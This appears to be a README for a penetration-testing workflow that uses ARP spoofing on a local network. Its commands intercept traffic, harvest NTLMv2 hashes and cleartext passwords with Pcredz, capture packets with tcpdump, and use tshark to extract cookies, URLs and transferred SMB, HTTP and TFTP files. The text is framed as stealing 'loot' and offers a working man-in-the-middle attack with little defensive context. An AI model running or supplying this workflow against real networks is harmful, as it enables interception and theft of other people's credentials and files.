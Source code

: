 First you want to make sure to enable ip forwarding, so that you don't DoS the network.

Then run pcredz in its own window. This will run in the background and display all loot.
Note: You can run a `script -a pcredz.txt` to start a script before hand so that all of the loot is dumped into a script file for coming back to later.

If you want to do a packet capture to steal files transferred over the wire while you're spoofing you can do the tcpdump command.

Then use the python script followed by the fields it needs to generate the bash script, which is used to run the spoofing.

I recommend 5 host at a time over 5 or 10 minutes. Any files too big to not be captured at this rate are most likely not worth your time.

At this point everything that is needed should be in place, so go ahead and fire off the arp spoofing script in the syntax shown below.

While it is running you can copy out the NTLMv2 challenge responses, cleartext credentials, and anything else that may show up if it seems usable. 

After its done running you can use the tshark commands on the tcpdump file to extract any files that were captured in the process.


```bash
sudo echo "1" > /proc/sys/net/ipv4/ip_forward
sudo Pcredz -i eth0
tcpdump -ni eth0 -w arpspoof{x}.cap
./arpspoof.py hostsFile arp.sh gatewayIP simultaneousHosts timeoutMinutes always-attack-ips
chmod +x arp.sh
# doing it this way allows you to cancel individual spoofing sessions. doing ./arp.sh will chunk them all together
. ./arp.sh
# Watch Pcredz for NTLMv2 C/R Hashes, cleartext passwords, and other juicy bits

# After done

# Extract HTTP fields:
tshark -nr arpspoof{x}.cap -Y http.request -T fields -e http.host -e http.user_agent | sort -u
tshark -nr arpspoof{x}.cap -Y http.request -T fields -e http.host -e http.user_agent -e http.request.full_uri -e http.cookie | sort -u
# Extract SMB Files captured
mkdir smbfiles
tshark -nr arpspoof{x}.cap --export-objects smb,smbfiles
# Extract files from HTTP traffic:
mkdir httpfiles
tshark -nr arpspoof{x}.cap --export-objects http,httpfiles
# Extract files from TFTP traffic:
mkdir tftpfiles
tshark -nr arpspoof{x}.cap --export-objects tftp,tftpfiles
```

If you run into an error running pcredz regarding libcap. Run these commands.
```bash
wget http://http.us.debian.org/debian/pool/main/p/python-libpcap/python-libpcap_0.6.4-1_amd64.deb
dpkg -i python-libpcap_0.6.4-1_amd64.deb
```
